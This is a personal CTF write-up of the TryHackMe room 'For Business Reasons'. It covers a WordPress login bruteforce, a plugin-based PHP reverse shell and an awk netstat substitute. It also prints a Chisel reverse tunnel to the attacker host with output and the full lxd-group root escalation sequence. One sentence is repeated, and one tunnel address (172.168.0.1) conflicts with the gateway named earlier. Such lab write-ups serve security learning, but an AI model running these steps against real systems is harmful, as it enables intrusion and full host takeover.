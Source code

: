 ```yaml
---
layout: post
title: CTF Log - For Business Reasons {THM}
description: A log of how I did the TryHackMe room For Business Reasons by MsMouse
summary: A log of the THM room "For Business Reasons"
tags: ctf log
minute: 9
---
```

<br/>

> {{ page.description }}

<br/>

# For Business Reasons
## Wordpress Login Bruteforce & Plugin Reverse Shell
Scanned and received responses from the following ports: 22, 80, 2377, 7946. Only port 80 registered as open. 

Found a Wordpress blog and noticed that the default/template posts were made by a user named `sysadmin.` So, I chucked a `rockyou.txt` bruteforce against that username while I further enumerated the site. 

Soon after, I landed a valid password. 

I chucked a `rockyou.txt` bruteforce against the username `sysadmin` while I researched that vulnerability and landed a valid password.

Edited an existing plugin to include a PHP reverse shell and enabled the plugin; got a shell as `www-data` in a Docker container.

## Proxying Through Docker Container
The Docker container I landed in was lacking a lot core networking utils like `ping`, `ip`, `ifconfig`, etc. After poking around for a while I stumbled upon [this](https://staaldraad.github.io/2017/12/20/netstat-without-netstat/) fantastic blog post by [Staaldraad](https://staaldraad.github.io/). In it they detail some research into parsing data from the `/proc/net/tcp` pseudofile to recreate the `netstat` and `id` commands. 

I use their `awk` script:

```bash{% raw %}
awk 'function hextodec(str,ret,n,i,k,c){
    ret = 0
    n = length(str)
    for (i = 1; i <= n; i++) {
        c = tolower(substr(str, i, 1))
        k = index("123456789abcdef", c)
        ret = ret * 16 + k
    }
    return ret
}
function getIP(str,ret){
    ret=hextodec(substr(str,index(str,":")-2,2)); 
    for (i=5; i>0; i-=2) {
        ret = ret"."hextodec(substr(str,i,2))
    }
    ret = ret":"hextodec(substr(str,index(str,":")+1,4))
    return ret
} 
NR > 1 {{if(NR==2)print "Local - Remote";local=getIP($2);remote=getIP($3)}{print local" - "remote}}' /proc/net/tcp{% endraw %}
```

to see the current open TCP connections. 

![Screenshot of aforementioned awk script and output.](/assets/media/forbusinessreasons/proc_net_tcp_netstat.png)

I noticed a connection between `172.18.0.3` and `10.13.1.225`. Since the latter is my attack machine's IP address I conclude that the former IP address belongs to the container that I'm in. From there I correctly assume that the gateway address of that subnet, `172.18.0.1`, belongs to the machine hosting the Docker container; I use the following to scan for certain ports on that address. 
```bash
curl -m 1 --include -v localhost:$x
```

> `-m 1` Setting a max timeout time for the curl attempt, prevents me from getting stuck on an unresponsive port, which would require me to `ctrl+c` and thusly break my non-pty shell.

After identifying an open port 22 on the host machine, I download [Chisel](https://github.com/jpillora/chisel) onto the docker container and launch the client command: 

```bash
$ ./chisel client 10.13.1.225:1234 R:2002:172.168.0.1:22
2021/09/13 21:34:59 client: Connecting to ws://10.13.1.225:1234
2021/09/13 21:35:00 client: Connected (Latency 184.290108ms)
```

And on my attacker machine, the server command:

```bash
┌──(kali㉿kali)-[/opt/chisel/binaries]
└─$ ./chisel_1.7.6_linux_amd64 server -p 1234 --reverse

2021/09/13 16:32:53 server: Reverse tunnelling enabled
2021/09/13 16:32:53 server: Fingerprint gOtbf9dlNJ2ecdo44g20iAMt+SSp8NkeAfp5CWKusaU=
2021/09/13 16:32:53 server: Listening on http://0.0.0.0:1234
```

I'm then able to ssh against my local machine and have my request proxied through to the victim host machine. The credentials for `sysadmin` are reused from the Wordpress blog.

## lxc Privileged, Recursive Container Filesystem Privesc
The privilege escalation technique is simple. My user, `sysadmin`, belongs to the `lxd` group which by default allows that user to use `lxc` to escalate privileges. 

I create an [Alpine](https://hub.docker.com/_/alpine) container on my attacker machine using [Distrobuilder](https://github.com/lxc/distrobuilder) then download the resulting files onto the victim machine. 

I then execute the following sequence of commands (Learned from [Hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)) to create a privileged docker container whose filesystem contains a recursive mount of the host machine's filesystem. This allows me to enter the docker container as `root` and act upon the host filesystem as `root`.

```bash
sysadmin@ubuntu:~$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
Image imported with fingerprint: 02aa7f299f733b42a726c44d6505645cf23e67ebcb31fda3ec24e8c2d4c0497b             
sysadmin@ubuntu:~$ lxc init alpine privesc -c security.privileged=true             
Creating privesc
sysadmin@ubuntu:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
sysadmin@ubuntu:~$ lxc start privesc
sysadmin@ubuntu:~$ lxc exec privesc /bin/sh
~ # id
uid=0(root) gid=0(root)
```